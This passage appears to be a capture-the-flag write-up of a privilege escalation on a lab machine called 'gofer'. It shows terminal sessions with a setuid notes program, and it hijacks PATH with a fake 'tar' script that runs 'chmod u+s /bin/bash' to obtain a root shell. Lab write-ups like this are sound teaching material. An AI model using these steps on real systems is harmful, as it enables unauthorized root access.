 ```bash
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 8

Access granted!
tar: Removing leading `/' from member names
/opt/notes/
```

Excellent we tricked it into thinking we are admin. Now from here the simplest thing to do is create a new tar executable and add another path variable to run our version of tar. The reason I can do this is the tar command run by the binary does not specify the tool's location and I have permissions to change the PATH environment variable.


```bash
tbuckley@gofer:~$ echo '#!/bin/bash' > tar
tbuckley@gofer:~$ echo 'chmod u+s /bin/bash' >> tar
tbuckley@gofer:~$ PATH=~:$PATH
tbuckley@gofer:~$ notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: tmp

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 3

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
```